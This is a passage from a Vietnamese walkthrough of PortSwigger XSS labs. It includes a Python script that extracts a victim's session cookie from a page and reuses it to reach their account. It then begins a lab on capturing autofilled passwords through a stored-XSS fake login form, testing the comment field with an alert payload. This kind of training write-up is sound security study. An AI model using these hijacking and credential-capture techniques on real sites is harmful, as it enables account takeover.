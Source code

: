 ```python
    data=data,
    verify=False,
)

response = session.get(
    url + "/post?postId=8",
    verify=False,
)

pattern = 'secret='+r'\b\w{32}\b'+'; ' + 'session=' +r'\b\w{32}\b'
match = re.search(pattern, response.text).group()
session_data = match.split(';')[1].split('=')[1]
cookies = {
    'session' : session_data,
}
response = session.get(
    url + "/my-account",
    cookies= cookies,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/HJ_IYu_9T.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SkXF3POqa.png)

## 23. Lab: Exploiting cross-site scripting to capture passwords

link: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

### Đề bài

![image](https://hackmd.io/_uploads/ByOrEFd9p.png)

### Phân tích

- Lab trên chứa lỗ hổng stored XSS ở chức năng bình luận, nạn nhân sẽ xem tất cả comment được đăng, để solve lab này thì mình cần khai thác lỗ hổng để lấy username và password của nạn nhân và lấy nó để đăng nhập vào tài khoản của nạn nhân
- Tương tự các bài trên, chức năng comment bị dính Stored XSS. Kiểm tra với trường comment với `<script>alert(1)</script>` thì thấy attack thành công.
- ![image](https://hackmd.io/_uploads/rkoNSYu9p.png)

- Có phải các bạn đã từng gặp tình huống sau khi đăng nhập tài khoản ở một trang web nào đó và trình duyệt đã gợi ý việc lưu trữ mật khẩu?
- ![image](https://hackmd.io/_uploads/Syl-pCd9a.png)
- Tính năng lưu trữ mật khẩu không chỉ giúp ích cho chúng ta tìm lại mật khẩu trong trường hợp bị quên sau thời gian dài, mà còn giúp chúng ta tự động điền (autofill) tài khoản ở các lần đăng nhập sau:
- Chức năng hữu ích này đã gián tiếp giúp kẻ tấn công có thể lợi dụng lỗ hổng XSS nhằm đánh cắp mật khẩu ở chế độ autofill trên trình duyệt của nạn nhân. Chẳng hạn, kẻ tấn công có thể lợi dụng XSS tạo một form login giả trên trang web với script
- Kết quả sau khi comment, với lỗ hổng Stored XSS sẽ luôn hiển thị form giả này tới mỗi nạn nhân truy cập bài viết chứa script